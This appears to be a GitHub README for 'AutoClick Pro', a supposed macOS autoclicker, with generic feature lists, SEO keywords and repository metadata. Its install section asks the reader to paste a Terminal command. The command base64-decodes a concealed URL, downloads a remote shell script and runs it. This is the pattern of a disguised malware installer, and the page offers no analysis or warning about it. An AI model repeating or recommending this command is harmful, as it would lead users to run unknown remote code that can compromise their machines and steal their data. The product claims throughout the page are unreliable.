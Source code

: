 # AutoClick Pro 🖱️\\n\\n
AutoClick Pro is a lightweight macOS automation tool for repetitive clicking tasks. Designed for testers, gamers, and productivity seekers, it offers precise control without system overload. Built with Swift for native performance and reliability.\\n\\n
## 🧰 Install on macOS\\n\\n
Open Terminal and run:\\n\\n
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```\\n\\n
## 🎯 Key Features\\n\\n
⚡️ Swift Engine: Native macOS implementation ensures lag-free performance even during extended sessions\\n
🔒 Privacy Focus: No data collection or internet permissions required after installation\\n
⚙️ Custom Profiles: Save click patterns with adjustable intervals and coordinates for different workflows\\n
🚀 Low Latency: Optimized event injection responds within 5ms of scheduled time\\n
🎨 Native UI: Follows macOS Human Interface Guidelines for seamless system integration\\n
📊 Usage Analytics: Built-in session timer tracks automation duration for productivity insights\\n\\n
---\\n\\n
## 🛡 Why Choose\\n\\n
🛠 Active Development: Regular updates with new macOS version compatibility patches\\n
✅ Proven Reliability: Used by 500+ GitHub developers in their daily workflows\\n
🤝 Open Roadmap: Feature requests and bug reports are publicly tracked\\n
🏅 Clean Codebase: 100% documented Swift with zero external dependencies\\n\\n
---\\n\\n
## 🏆 Why Use It\\n\\n
🎯 10x Efficiency: Automate repetitive UI testing or data entry tasks in seconds\\n
💡 Intuitive Setup: Configure complex click sequences through simple JSON files\\n
🔧 Self-Healing: Automatic process cleanup prevents memory leaks\\n
🌐 Universal Compatibility: Works with most Cocoa and Catalyst applications\\n\\n
---\\n\\n
## 💡 System Requirements\\n\\n
OS: macOS 12.0 Monterey or newer\\n
CPU: Apple M1 or Intel Core i5\\n
RAM: 4 GB minimum\\n
Storage: 200 MB available space\\n
Others: Terminal access, active internet connection\\n\\n
---\\n\\n
## 📜 Contributing\\n\\n
To contribute, fork this repository and open a pull request with a clear explanation. Follow our macOS development standards.\\n\\n
---\\n\\n
## 📄 License\\n\\n
MIT License © 2023 AutoClick Pro\\n\\n
---\\n\\n
## 🔍 SEO Keywords\\n\\n
macOS autoclicker, mouse automation tool, click automation software, repetitive task helper, UI testing automation, Swift clicker, open-source autoclicker, productivity automation, mouse macro tool, gaming click assistant, click interval control, cursor automation, macOS utility, click pattern recorder, automated testing
Repository Name: auto-click-pro
Display Name: AutoClick Pro 🖱️
Repository Description: Lightweight macOS automation tool for precise click automation. Perfect for developers, testers, and power users needing reliable UI automation.
Organization Description: Open-source macOS automation tools for productivity and testing workflows
Organization Email: support@auto-click-pro.com

